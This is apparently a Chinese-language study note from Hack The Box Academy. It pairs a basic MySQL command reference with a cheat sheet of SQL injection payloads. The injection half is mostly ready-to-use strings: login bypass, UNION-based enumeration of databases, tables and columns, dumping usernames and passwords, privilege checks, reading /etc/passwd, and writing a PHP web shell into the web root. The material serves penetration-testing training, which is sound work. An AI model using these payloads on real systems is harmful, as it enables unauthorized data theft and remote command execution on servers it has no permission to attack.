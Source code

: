 +++
author = "Lulaide"
title = "SQL注入常用命令"
date = "2024-10-09"
description = "常用SQL命令--HTB笔记"
tags = [
    "SQL",
    "Linux"
]
categories = ["教程&文档"]
image = "image.png"
+++



# MySQL 常用命令

## 一般命令
| 命令                                                      | 描述                   |
|---------------------------------------------------------|----------------------|
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p`    | 登录 MySQL 数据库      |
| `SHOW DATABASES`                                       | 列出可用的数据库       |
| `USE users`                                           | 切换到数据库          |

## 表格操作
| 命令                                                      | 描述                   |
|---------------------------------------------------------|----------------------|
| `CREATE TABLE logins (id INT, ...)`                   | 添加新表              |
| `SHOW TABLES`                                         | 列出当前数据库中可用的表 |
| `DESCRIBE logins`                                     | 显示表属性和列        |
| `INSERT INTO table_name VALUES (value_1, ..)`        | 向表中添加值          |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | 向特定列添加值        |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | 更新表值              |

## 列操作
| 命令                                                      | 描述                   |
|---------------------------------------------------------|----------------------|
| `SELECT * FROM table_name`                             | 显示表中的所有列      |
| `SELECT column1, column2 FROM table_name`             | 显示表中的特定列      |
| `DROP TABLE logins`                                   | 删除表                |
| `ALTER TABLE logins ADD newColumn INT`                | 添加新列              |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | 重命名列              |
| `ALTER TABLE logins MODIFY oldColumn DATE`            | 更改列数据类型        |
| `ALTER TABLE logins DROP oldColumn`                   | 删除列                |

## 输出操作
| 命令                                                      | 描述                   |
|---------------------------------------------------------|----------------------|
| `SELECT * FROM logins ORDER BY column_1`               | 按列排序              |
| `SELECT * FROM logins ORDER BY column_1 DESC`          | 按列降序排序          |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC`  | 按两列排序            |
| `SELECT * FROM logins LIMIT 2`                         | 仅显示前两个结果      |
| `SELECT * FROM logins LIMIT 1, 2`                      | 仅显示从索引 2 开始的前两个结果 |
| `SELECT * FROM table_name WHERE <condition>`           | 列出符合条件的结果    |
| `SELECT * FROM logins WHERE username LIKE 'admin%'`    | 列出名称与给定字符串相似的结果 |

## MySQL 运算符优先级
1. 除法 (`/`)、乘法 (`*`) 和模数 (`%`)
2. 加法 (`+`) 和减法 (`-`)
3. 比较 (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
4. 不是 (`!`)
5. 和 (`&&`)
6. 或者 (`||`)

# SQL 注入

## 有效载荷
| 有效载荷                       | 描述                     |
|------------------------------|------------------------|
| `admin' or '1'='1`          | 基本身份验证绕过         |
| `admin')-- -`                | 基本身份验证绕过（带注释）|

## 身份验证绕过负载
| 有效载荷                       | 描述                     |
|------------------------------|------------------------|
| `' order by 1-- -`           | 使用以下方法检测列数       |
| `cn' UNION select 1,2,3-- -` | 使用 Union 注入检测列数   |
| `cn' UNION select 1,@@version,3,4-- -` | 基本 Union 注入       |
| `UNION select username, 2, 3, 4 from passwords-- -` | 4 列联合注射  |

## 数据库枚举
| 有效载荷                                       | 描述                       |
|----------------------------------------------|--------------------------|
| `SELECT @@version`                          | 使用查询输出对 MySQL 进行指纹识别 |
| `SELECT SLEEP(5)`                           | 指纹识别 MySQL，无输出       |
| `cn' UNION select 1,database(),2,3-- -`     | 当前数据库名称               |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | 列出所有数据库               |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | 列出特定数据库中的所有表 |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | 列出特定表中的所有列 |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | 从另一个数据库的表中转储数据 |

## 特权
| 有效载荷                                               | 描述                   |
|------------------------------------------------------|----------------------|
| `cn' UNION SELECT 1, user(), 3, 4-- -`              | 查找当前用户           |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | 查找用户是否具有管理员权限 |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | 查找所有用户权限     |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | 查找可以通过 MySQL 访问的目录 |

## 文件注入
| 有效载荷                                           | 描述                   |
|--------------------------------------------------|----------------------|
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | 读取本地文件           |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | 将字符串写入本地文件     |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | 将 web shell 写入基础 web 目录 |



[**HTB Academy**](https://academy.hackthebox.com/)